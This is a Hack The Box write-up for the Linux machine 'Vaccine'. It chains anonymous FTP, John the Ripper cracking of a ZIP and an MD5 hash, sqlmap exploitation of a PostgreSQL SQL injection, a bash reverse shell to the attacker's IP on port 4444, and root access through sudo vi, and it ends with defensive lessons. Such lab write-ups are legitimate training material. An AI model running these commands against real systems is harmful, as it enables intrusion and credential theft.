










HTB — Vaccine (Easy/Linux)


## Summary

Vaccine is a Linux machine where the main attack vector 
is a SQL Injection vulnerability. The machine is 
vulnerable to SQLi, allowing access to an OS shell and 
eventually root. Along the way, two PHP files containing 
important credentials protected by hashing are 
discovered. John the Ripper is used to crack both.

**Attack Chain:** FTP → ZIP → SQLi → Shell → Root

---

## Reconnaissance

### Port Scan

```bash
nmap -sV -sC -oN nmap_vaccine.txt 10.129.90.30
```

**Results:**

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu
80/tcp open  http    Apache httpd 2.4.41


Three ports are open. All three will be used during the 
attack, but the starting point is port 21 (FTP) because 
nmap reveals that anonymous login is enabled — meaning 
access requires no password.

---

## Enumeration

### FTP — Anonymous Login

```bash
ftp 10.129.90.30
# Username: anonymous
# Password: (empty)
```

Anonymous login is confirmed. Inside the FTP server, 
a file called `backup.zip` is present. Downloaded 
using the `get` command.


---

## Credential Access — ZIP Password

The downloaded archive is password protected. To crack 
it, John the Ripper is used. First, `zip2john` extracts 
the hash from the ZIP into a file called `hash.txt`. 
Then John cracks it using the rockyou wordlist.

```bash
zip2john backup.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Password found: **741852963**



---

## File Analysis

Using the cracked password, the archive is extracted, 
revealing two files:
- `index.php` — contains hardcoded credentials
- `style.css`

```bash
unzip backup.zip
```



---

## Credential Access — Hardcoded Credentials

Analyzing `index.php`, both the username and password 
are hardcoded directly in the source code. The password 
is protected using MD5 hashing — an outdated and 
insecure algorithm.

Username: admin
Password hash (MD5): 2cb42f8734ea607eefed3b70af13bbd3



---

## Credential Access — MD5 Hash

John the Ripper is used again to crack the MD5 hash. 
The hash is saved into a new file called `md5hash.txt` 
and cracked specifying the Raw-MD5 format.

```bash
echo "2cb42f8734ea607eefed3b70af13bbd3" > md5hash.txt
john --format=Raw-MD5 \
--wordlist=/usr/share/wordlists/rockyou.txt md5hash.txt
```

Password found: **qwerty789**



---

## Web Application Access

Using the complete credentials (`admin:qwerty789`), 
login to the web application discovered during the 
nmap scan is successful. The dashboard shows a 
MegaCorp Car Catalogue with a search bar.



---

## Vulnerability Analysis — SQL Injection

To test if the search bar is vulnerable to SQL 
Injection, a single quote `'` is submitted as input. 
The application returns a raw PostgreSQL error, 
exposing the internal query structure and confirming 
the vulnerability.

ERROR: unterminated quoted string at or near
Select * from cars where name ilike '%'%'



---

## Exploitation — SQLMap

With SQL Injection confirmed, SQLMap is used to 
automate the attack. The target URL and session cookie 
are provided, along with `--os-shell` to attempt 
command execution on the underlying operating system.

```bash
sqlmap -r request.txt \
--dbms=PostgreSQL \
--level=5 \
--risk=3 \
--os-shell \
-p search
```

SQLMap successfully identifies multiple injection 
techniques and uses PostgreSQL's `COPY FROM PROGRAM` 
feature to achieve OS command execution.

os-shell>



---

## Post-Exploitation — Reverse Shell

From the os-shell, a reverse shell is established for 
a more stable and reliable connection. A listener is 
set up on port 4444 and the connection is caught 
successfully.

```bash
# Listener on Kali:
nc -lvnp 4444

# Command in os-shell:
bash -c 'bash -i >& /dev/tcp/10.10.16.170/4444 0>&1'
```

Shell stabilized using:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```



---

## Privilege Escalation — sudo Misconfiguration

Running `sudo -l` reveals that the `postgres` user can 
execute `/bin/vi` as root without a password. Since vi 
can execute system commands from within the editor, 
this is a direct path to root.

```bash
sudo -l
# (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```



```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
# Inside vi:
:!/bin/bash
```

Vi spawns a bash shell inheriting root privileges.

---

## Post-Exploitation — Flags

```bash
whoami
# root

cat /root/root.txt
# dd6e058e814260bc70e9bbdef2715849
```



---

## Lessons Learned

### Offensive Perspective
- FTP anonymous login exposes internal files to 
  any unauthenticated attacker
- Hardcoded credentials in source code are a 
  critical vulnerability requiring no exploitation
- MD5 provides no real password protection — 
  crackable in seconds with a wordlist
- SQL Injection can escalate to full OS access 
  via PostgreSQL COPY FROM PROGRAM
- Text editors with sudo permissions allow trivial 
  privilege escalation via shell escape

### Defensive Perspective
- Disable FTP anonymous login — use SFTP with 
  key-based authentication
- Never store credentials in source code — use 
  environment variables or secrets managers
- Use bcrypt or argon2 for password hashing, 
  never MD5 or SHA1
- Sanitize and parameterize all database inputs
- Audit sudo permissions regularly — no editor 
  should ever run as root

---

## Attack Chain Summary

NMAP — 3 ports discovered (21, 22, 80)
↓
FTP Anonymous Login — backup.zip downloaded
↓
zip2john + John — ZIP password cracked: 741852963
↓
index.php — admin credentials + MD5 hash found
↓
John Raw-MD5 — password cracked: qwerty789
↓
Web Login — dashboard.php accessed
↓
SQL Injection confirmed — apostrophe error
↓
SQLMap --os-shell — PostgreSQL COPY FROM PROGRAM
↓
Reverse Shell — postgres@vaccine
↓
sudo -l — /bin/vi runs as root
↓
vi :!/bin/bash — root shell spawned
↓
ROOT ✅

---

## References
- [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)
- [PostgreSQL COPY FROM PROGRAM](https://www.postgresql.org/docs/current/sql-copy.html)
- [GTFOBins — vi](https://gtfobins.github.io/gtfobins/vi/)
- [HackTheBox — Vaccine](https://app.hackthebox.com/machines/Vaccine)
